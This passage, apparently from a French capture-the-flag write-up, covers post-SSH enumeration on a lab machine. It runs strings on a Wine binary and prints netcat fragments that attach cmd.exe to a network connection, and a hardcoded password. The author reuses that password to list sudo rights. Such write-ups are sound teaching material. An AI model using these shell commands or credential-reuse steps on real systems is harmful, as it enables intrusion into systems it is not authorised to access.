 Une fois connectée par ssh (enfin) je remarque dans les process le programme qui nous a fournit notre porte d'entrée :

`fox        984  3.6  2.0 2648776 20776 tty2    Sl+  14:03  14:21 recallserver.exe`

Il a été placé dans le system32 du Wine :

```shellsession
$ find / -name recallserver.exe 2> /dev/null
/home/fox/.wine/drive_c/windows/system32/recallserver.exe
```

Quand on connait la structure d'un exécutable (différentes sections pour chaque type de données) on sait que les chaines de caractères intégrées par le développeur seront rassemblés à une même endroit.

J'applique donc un strings sur le binaire et fait une recherche sur *booboo* :

```
TRILLION
 HUNDRED 
sxhh
sxhh
ZYYd
connected
nc64.exe 
 1234 -e cmd.exe
Welcome to foxrecall server
username: 
login: 
Password
pass: 
tutankamenFERILLI
Wrong password for user fox
admin
booboo
Wrong password for user admin
user does not exist
cmd /c nc.exe 
 -e cmd.exe
You are not ready sorry...
bye!
ZYYd
```

La chaine `tutankamenFERILLI` est clairement quelque chose que je n'avais pas vu jusqu'ici.

Il s'avère que c'est le mot de passe de l'utilisateur *fox* et qu'on peut s'en servir pour une commande sudo :

```shellsession
$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for fox: 
Matching Defaults entries for fox on callme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on callme:
    (root) /usr/sbin/mount.nfs
```
